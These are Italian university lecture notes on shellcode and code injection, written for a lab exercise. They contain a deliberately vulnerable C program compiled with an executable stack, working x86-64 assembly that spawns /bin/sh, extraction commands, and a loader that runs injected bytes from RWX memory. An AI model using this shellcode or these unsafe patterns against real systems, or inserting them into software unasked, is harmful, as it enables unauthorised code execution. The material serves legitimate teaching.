 ```yaml
---
id: '9'
lezione: "20231026"
title: "Shellcode"
author: "Sam. Kaluwaduge"
keywords: 
---
```

<style>
    strong{
        background-color:#faf43e;
        color: black;
        padding:0.1rem 0.2rem;
        border-radius:5px;
    }
</style>

# Shellcode
Shellcode è un pezzo di codice che ha caratteristiche particolari, tra cui il dover essere scritto in linguaggio macchina che viene usato per sfruttare le vulnerabilità all'interno di un codice attraverso attaccho di tipo **injection**. Lo shell code, tipicamente viene iniettato all'interno di un processo in esecuzione e magicamente questo lo esegue.

Lo shell code contiene codificato in linguaggio macchina le azioni che l'attaccante vuole eseguire sulla macchina.

## Code Injection
Attacco di base è di tipo **Code Injection** (iniettare codice), prima mandarlo in esecuzione, il codice viene messo all'interno della memoria. La `code injection` è possibile su questi calcolatori grazie al fatto che essi si basano sull'architettura di **John Von Neumann**. **Il principio fondamentale di questa architettura è che i dati e il codice condividono lo stesso spazio di memoria**, infatti iniezione di codice avviene **sfruttando istruzioni di I/O**, quindi dati che vengono messi in memoria occupano lo stesso spazio di memoria. 

![Von Nuemann](assets/images/Von_Neumann_Architecture.png)

> **L'architettura di Harvard** invece data memory e program memory occupano spazi di memoria completamente diversi (alcune architetture ARM la implementa). Quindi, su questa architettura non è possibile fare attacchi di tipo Code Injection.

![Harvard](assets/images/Architettura_harvard.svg.png)

### Codice Vulnerabile
Per eseguire questo attacco boisogna prima individuare un pezzo di codice vulnerabile ovvero un **security bug**, è una vulnerabilità che ci permette di **bypassare/scavalcare meccanismo di protezione** di un sistema, quindi, guardagnare un accesso non autirzzato al sistema.

```c
void bye1(){ puts("Goodbye!\n"); }

void bye2(){ puts("Farewell!\n"); }

void hello(char *name, void (*bye_func)()){
    printf("Hello %s!\n", name);
    bye_func();
}

int main(int argc, char **argv){
    char name[1024];
    gets(name);
    srand(time(0));
    if(rand() % 2) hello(bye1, name);
    else hello(name, bye2);
}
```
compila con:
```sh
gcc -z execstack -g -o myFirstInjection myFirstIngection.c
```

>Questo codice a volte dà segmentation fault! (la parte di else).

### Layout di memoria di un processo linux in 64bit

![Memory layout](assets/images/address_space.png)

* Da 2<sup>48</sup> in su è la zona di memoria riservata al Kernel.
* Il processo ha a disposizione gli indirizzi da 0x400000 fino a 2<sup>48</sup> -1.
  
  * il codice .data,  etc...

Eseguiamo il programma in gdb finchè non crasha con signal Segmentation Fault `SIGSEGV` oppure IllegalInstruction.

![GDB seg fault](assets/images/gdb_seg.png)
~~~sh
    # trovre regione di memoria dove il programma ha fallito
    x/s $rip # register instruction pointer / program counter
    print $rip # address: 0x7fffffffda80

    info proc map # mostra la memoria attuale
~~~
In questo momento il `program counter $rip` contiene l'indirizzo (di stack) dell'istruzione che sta provando ad eseguire (`0x7fffffffda80`). 

Processore stava eseguendo l'istruzione $rip quando è avvenuto il fault.

Usando GDB andiamo a vedere cosa contiene quell'indirizzo di memoria: alcuni hanno avuto `(bad)` significa un istruzione sconosciuto ed alcuni hanno trovato un istruzione di `add`.

`x/s $rip` gdb dice qualè il contenuto di quell'indirizzo di memoria. 

Il program counter ad un certo punto è stato posizionato sulla stringa data, quando si chiama hello con bye2 con argomenti invertiti, il programma cerca di eseguire input dell'utente come fosse una funzione (perchè si aspetta una funzione/un puntatore a funzione).

La vulnerabilità è che il programmatore ha scambiato l'ordine dei parametri della funzione.

Il fault è stato creato perché il cpu cerca di interpretare il contenuto di quella locazione memoria come un istruzione, che potrebbe essere un istruzione riconosciuto cosi come uno sconosciuto oppure un istruzione che cerca di accedere ad un indirizzo di memoria assurdo (crea un segmentation fault).

![code injection es2](assets/images/code%20injection%20es2.png)

in questo caso l'input `546tragybfzdcx` è stato interpretato come un istruzione di tipo `xor`.

Un codice universale che permette di fare tutto sulla macchina è eseguire una shell da quel programma, da questo viene il nome `ShellCode`. 

Code injection è la vulnerabilità utilizzato da Morris nel 1988 con Internet Worm. 

### Shell Code per eseguire una shell

```s
.intel_syntax noprefix
.global _start 
.section .text
_start:
mov rax, 59
lea rdi, [rip + binsh]
mov rsi, 0
mov rdx, 0
syscall
binsh:
.string "/bin/sh"
```
(non mettere .section .data)

Verificare che il codice assembly compilato sia come segue:

```s
mov rax, 0x3b
lea rdi, [rip+0x1c]
mov rsi,0x0
mov rdx,0x0
syscall
00... <binsh>:
(bad)
(bad)
.byte 0x69
outs dx,BYTE PTR ds:[rsi]
(bad)
jae 4
```
`gcc -nostdlib -static -o shellcode shellcode.s`

Si estrae la sezione .text dal file ELF con il comando `objcopy --dump-section .text=RawFile executable`.

### Carrier

prima di testarlo bisogna iniettarlo per questo si usa un programma che si chiama `Carrier` perché non può essere eseguito da solo.

```c
#include<sys/mman.h>
#include<unistd.h>
int main(void){
    void *page = mmap(0x1337000, 0x1000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANON, 0, 0); // riserva 1000 byte in cui disabilita tutte le protezioni
    read(0, page, 0x1000); //legge da stdin fino a 1000 byte in questa zona (o al primo EOF)
    ((void(*)())page)(); //manda in esecuzione 
    return 0;
}
```
questo programma:
* `mmap()`: riserva una zona di memoria di `1000 byte` che disabilità tutte le protezioni.
* `read()`: legge da stdin fino a `1000 byte` (fino al primo EOF)
* manda in esecuzione il programma che stato scritto in variabile `page` (zona memoria riservato con `mmap()`)

### Attacco

    cat rawfile - | ./carrier

* rawfile è il file ottenuto con `objcopy --dump-section .text=rawfile shcode`.

    `cat rawfile | ./carrier` # non funziona perché la pipe chiude lo stdin e quado la shell (sh) inizia trova stdin chiuso quindi termina, bisogna usare `cat rawfile - | ./carrier`.

## Esercizio
Creare un file `/flag` nella root, scrivere del codice che accede al suo contenuto e lo stampa.

Scrivere un programma in C estrarre da file compilato assembly il shellcode.

system call da usare: (open, sendfile, exit).

La shell appare all'utente, non all'attaccante, bisogna poi redireigere la shell. (remote shell). Il codice è un pochino piu complicato.